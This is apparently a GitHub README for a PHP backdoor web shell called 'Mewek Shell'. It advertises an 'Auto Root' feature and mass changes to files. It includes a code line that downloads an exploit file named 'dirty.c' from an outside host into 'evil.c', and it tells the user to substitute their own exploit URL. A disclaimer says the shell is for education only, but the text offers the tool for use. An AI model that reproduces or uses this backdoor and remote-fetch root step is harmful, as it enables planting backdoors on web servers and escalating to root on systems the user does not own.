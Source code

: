 # Mewek shell
Mewek Shell is a Backdoor shell dangerous, so just use the shell for education

## Feature Update
- Auto Root
- Mass Change File type and File

## Tutorial Auto Root
search coment "//Code Auto Root" user CTRL + F
```html
file_put_contents("evil.c", file_get_contents("http://haxorid.com/dirty.c"));
```
and change [http://haxorid.com/dirty.c] with your dirty file

## :octocat: Credits
- Thanks to https://saranghandago.com/
